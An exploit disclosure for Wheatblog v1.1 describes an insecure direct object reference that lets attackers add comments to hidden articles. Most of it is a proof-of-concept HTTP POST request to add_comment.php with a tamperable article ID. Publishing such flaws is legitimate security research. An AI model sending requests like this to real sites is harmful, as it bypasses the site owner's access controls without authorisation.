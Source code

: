 # Exploit Title: Wheatblog v1.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/wheatblog/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Wheatblog
## Version: v1.1
## Exploit Description:
## Wheatblog v1.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add comment to article that is hidden(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /add_comment.php HTTP/1.1
...

comment_month=01&comment_date=08&comment_year=2024&the_id=2(CHANGE HERE)&comment_author_name=user1&comment_author_email=user1%40test.com&comment_author_url=&comment_body=user1111&captcha=123456
```